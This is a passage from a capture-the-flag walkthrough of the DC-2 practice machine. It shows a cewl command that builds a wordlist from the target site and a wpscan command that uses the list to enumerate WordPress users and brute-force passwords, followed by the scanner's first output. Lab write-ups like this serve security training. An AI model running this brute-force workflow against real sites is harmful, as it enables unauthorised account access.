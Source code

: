 
*In flag1 there is hint to make wordlist using cewl*

cewl -w dc2.txt http://dc-2/

![DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%205.png](DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%205.png)

wpscan --url http://dc-2/ -w /root/dc2.txt *(Using wpscan to enumerate wordpress user and bruteforce password)* 

```jsx
root@kali:~# wpscan --url http://dc-2/ -w /root/dc2.txt 
_______________________________________________________________
        __          _______   _____                  
        \ \        / /  __ \ / ____|                 
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \ 
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team 
                       Version 2.9.4
          Sponsored by Sucuri - https://sucuri.net
      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________

[i] It seems like you have not updated the database for some time
[i] Last database update: 2018-08-21
[?] Do you want to update now? [Y]es  [N]o  [A]bort update, default: [N] > n
[+] URL: http://dc-2/
[+] Started: Thu May 27 14:04:47 2021

[+] Interesting header: LINK: <http://dc-2/index.php/wp-json/>; rel="https://api.w.org/"
[+] Interesting header: LINK: <http://dc-2/>; rel=shortlink
[+] Interesting header: SERVER: Apache/2.4.10 (Debian)
[+] XML-RPC Interface available under: http://dc-2/xmlrpc.php   [HTTP 405]
[+] Found an RSS Feed: http://dc-2/index.php/feed/   [HTTP 200]
```
